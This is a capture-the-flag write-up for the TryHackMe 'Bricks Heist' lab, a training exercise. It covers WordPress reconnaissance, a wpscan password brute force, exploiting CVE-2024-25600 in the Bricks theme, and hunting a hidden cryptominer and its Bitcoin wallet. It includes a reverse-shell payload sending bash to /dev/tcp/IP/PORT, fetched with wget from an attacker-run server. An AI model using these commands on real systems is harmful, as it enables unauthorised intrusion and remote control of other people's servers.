# TryHack3M: Bricks Heist


**Difficulty:** `Easy`

**OS:** `Linux`

**Category:** `CVE-2024–25600, RCE, Bitcoin, Wordpress, Threat Hunting`

**Description:** `Crack the code, command the exploit! Dive into the heart of the system with just an RCE CVE as your key.`

***

# Task 1: Challenge


From Three Million Bricks to Three Million Transactions!  

Brick Press Media Co. was working on creating a brand-new web theme that represents a renowned wall using three million byte bricks. Agent Murphy comes with a streak of bad luck. And here we go again: the server is compromised, and they've lost access.  

Can you hack back the server and identify what happened there?

**Note:** Add `MACHINE_IP bricks.thm` to your **/etc/hosts** file.


# Question 1: What is the content of the hidden .txt file in the web folder?



Directory scan revels nothing


Changing the method using burp suite

**Request**


**Response**


Nmap scan

```shell
# Nmap 7.94SVN scan initiated Wed Apr 17 13:18:39 2024 as: nmap -sCV -T4 --min-rate=1000 -O -oN scan bricks.thm
Nmap scan report for bricks.thm (10.10.187.87)
Host is up (0.14s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 bb:f5:9b:f1:17:9d:4f:08:a8:13:cc:c1:59:70:f3:32 (RSA)
|   256 85:aa:54:22:6e:e0:0f:6e:03:33:ea:fb:72:94:bb:d5 (ECDSA)
|_  256 be:59:37:f9:fa:31:ee:11:46:ad:fb:6a:5e:f1:1b:7d (ED25519)
80/tcp   open  http     WebSockify Python/3.8.10
|_http-title: Error response
|_http-server-header: WebSockify Python/3.8.10
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: WebSockify Python/3.8.10
|     Date: Wed, 17 Apr 2024 12:18:45 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 472
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 405</p>
|     <p>Message: Method Not Allowed.</p>
|     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 501 Unsupported method ('OPTIONS')
|     Server: WebSockify Python/3.8.10
|     Date: Wed, 17 Apr 2024 12:18:46 GMT
|     Connection: close
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 500
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 501</p>
|     <p>Message: Unsupported method ('OPTIONS').</p>
|     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
|     </body>
|_    </html>
443/tcp  open  ssl/http Apache httpd
|_http-generator: WordPress 6.5
|_http-title: 400 Bad Request
|_http-server-header: Apache
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Not valid before: 2024-04-02T11:59:14
|_Not valid after:  2025-04-02T11:59:14
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
| tls-alpn: 
|   h2
|_  http/1.1
3306/tcp open  mysql    MySQL (unauthorized)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=4/17%Time=661FBE25%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,291,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nServer:\
SF:x20WebSockify\x20Python/3\.8\.10\r\nDate:\x20Wed,\x2017\x20Apr\x202024\
SF:x2012:18:45\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x20text/htm
SF:l;charset=utf-8\r\nContent-Length:\x20472\r\n\r\n<!DOCTYPE\x20HTML\x20P
SF:UBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20
SF:\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"C
SF:ontent-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20
SF:\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</hea
SF:d>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x
SF:20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x204
SF:05</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Method\x20Not\x2
SF:0Allowed\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20exp
SF:lanation:\x20405\x20-\x20Specified\x20method\x20is\x20invalid\x20for\x2
SF:0this\x20resource\.</p>\n\x20\x20\x20\x20</body>\n</html>\n")%r(HTTPOpt
SF:ions,2B9,"HTTP/1\.1\x20501\x20Unsupported\x20method\x20\('OPTIONS'\)\r\
SF:nServer:\x20WebSockify\x20Python/3\.8\.10\r\nDate:\x20Wed,\x2017\x20Apr
SF:\x202024\x2012:18:46\x20GMT\r\nConnection:\x20close\r\nContent-Type:\x2
SF:0text/html;charset=utf-8\r\nContent-Length:\x20500\r\n\r\n<!DOCTYPE\x20
SF:HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\
SF:n\x20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-
SF:equiv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x2
SF:0\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20
SF:\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h
SF:1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20c
SF:ode:\x20501</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Unsuppo
SF:rted\x20method\x20\('OPTIONS'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:<p>Error\x20code\x20explanation:\x20HTTPStatus\.NOT_IMPLEMENTED\x20-\x2
SF:0Server\x20does\x20not\x20support\x20this\x20operation\.</p>\n\x20\x20\
SF:x20\x20</body>\n</html>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/17%OT=22%CT=1%CU=43814%PV=Y%DS=2%DC=I%G=Y%TM=661F
OS:BE95%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508
OS:ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
OS:ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 17 13:20:37 2024 -- 1 IP address (1 host up) scanned in 118.00 seconds

```

This reveals there is a wordpress site running on 443



Next up is to perform a directory scan and wpscan



```shell
wpscan --url https://bricks.thm/ --enumerate dbe,cb,u,ap --detection-mode aggressive --disable-tls-checks
```

I added the `--disable-tls-checks` because it keeps throwing this error without it.





`wpscan` returns some information


`XML-RPC` is enabled, which means we can perform brute force.

We also have a valid username



Brute forcing for a valid password


```shell
wpscan --url https://bricks.thm/ -U administrator -P /usr/share/wordlists/rockyou.txt --disable-tls-checks
```

While the brute force is running, i also noticed the version of wordpress running


Checked for any public exploit but found none.

Couldn't find any passwords with the bruteforce also. After much searching around the application, i decided to check out the theme version for any exploit



Checking online we can see there is an RCE exploit for it


I mean the room name literally has "bricks" in it and room description talks about RCE lol

Exploit link:https://github.com/Chocapikk/CVE-2024-25600/tree/main
PoC link: https://snicco.io/vulnerability-disclosure/bricks/unauthenticated-rce-in-bricks-1-9-6


Clone the exploit repo, install requirements and run the exploit



And we have shell access



First flag obtained 


# Question 2: What is the name of the suspicious process?

The shell isn't a proper shell so i had to get a stable shell. To do that:

- Put the following payload in a file named shell.sh. Payload: 

```shell
	bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'`
```

- Start a python server on your machine. `python -m http.server`
- On target machine use wget to download the file `wget http://IP:PORT/shell.sh`
- Make the file an executable `chmod +x shell.sh`
- Start a netcat listener on your machine `nc -lvnp PORT` same port as the one in payload.
- Run the script `./shell.sh`

And with that you will get a shell.





To get an even better shell, run the following


```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z (background shell)
stty raw -echo;fg
Press ENTER
```

Next up is to find a suspicious process.

We can use the `systemctl` command for this



```shell
systemctl list-units --type=service --state=running
```

Press ENTER to keep displaying more services





We have our answer for both questions **What is the name of the suspicious process?** & **What is the service name affiliated with the suspicious process?**

# What is the log file name of the miner instance?

Navigating to the `/lib/NetworkManager` directory, we have a configuration file that contains logs on the miner instance





# What is the wallet address of the miner instance?

Checking the beginning of the file with the command `head -n 30 inet.conf`, we have a code here.



Using cyberchef to decode it



We have a code here.

If you notice carefully we have almost identical code

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa | bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa

Spilt

bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

Both start with `bc1` but differ in `9hd` `9had`

Doing a quick search


So the correct answer is the second one 

```
bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

# The wallet address used has been involved in transactions between wallets belonging to which threat group?

After searching a million websites using both addresses, i finally found it.

Using this website [link](https://blockchair.com/). I searched for this address `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`




Lot's of transactions came out. I looked at the last one



Clicked on privacy issues



Then searched for this address online




We have some information related to maybe cyber crime



Going to this [site](https://ofac.treasury.gov/recent-actions/20240220)

